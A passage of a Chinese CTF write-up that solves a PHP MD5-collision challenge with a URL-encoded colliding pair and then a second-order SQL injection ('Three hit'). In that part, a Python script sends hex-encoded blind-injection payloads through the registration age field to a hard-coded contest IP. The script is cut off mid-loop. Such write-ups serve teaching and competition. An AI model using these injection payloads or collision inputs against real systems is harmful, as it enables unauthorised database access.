如果参数为数组的话，经过string的强制类型转换后，均为字符串"Array"。另外md5与sha1函数对php对象返回也为空，但这里也无法传递对象，所以此法无效。所以真的要找一对MD5相同的二进制数据，url编码post提交即可(1,2,3均可过)，[MD5碰撞的一些例子](https://www.jianshu.com/p/c9089fd5b1ba)

```
param1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2&param2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
```

flag:QWB{s1gns1gns1gnaftermd5}


## Three hit

- 注册点发现需要填年龄，检查了是不是数值，正常登录发现会有谁谁谁和你的年龄一样的信息，典型二次注入
- 注册年龄处为注入点，虽然由php做是否为数字的检查，可用十六进制绕过，存到mysql数据库中已经是十六进制转换完的字符串了
- 此题的最后选出和你年龄一样的结果是最近的一条数据，总在变化
- 没有报错信息，也无法联合查询，所以采取盲注
- 猜出了select flag from flag

编写脚本登录加注册如下，每次更换payload要更改用户名

```python
# -*-coding:utf-8-*-  

import requests
import time
import binascii

flag = ""
register= "http://39.107.32.29:10000/index.php?func=register"
login ="http://39.107.32.29:10000/index.php?func=login"
profile="http://39.107.32.29:10000/profile.php"


for i in range(1,32):
    for j in range(33,127):

        #payload=b"1 and ascii(substr((user()),%s,1)) > %s"%(i,j)
        payload=b"1 and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),%s,1)) > %s"%(i,j)
       
        p1 = binascii.b2a_hex(payload)
        p2 = "0x"+p1

        rdata = {
            "username":"gogodena%s%s"%(i,j),
            "password":"gogodena%s%s"%(i,j),
            "age":p2

        }

        ldata={
            "username":"gogodena%s%s"%(i,j),
            "password":"gogodena%s%s"%(i,j)
        }

        r1 = requests.post(url=register,data=rdata)
        time.sleep(0.5)
        r2 = requests.session()
        r2.post(url=login,data=ldata)
        time.sleep(0.5)
        f = r2.get(url=profile) 

        if "no one in our database" in f.text:
```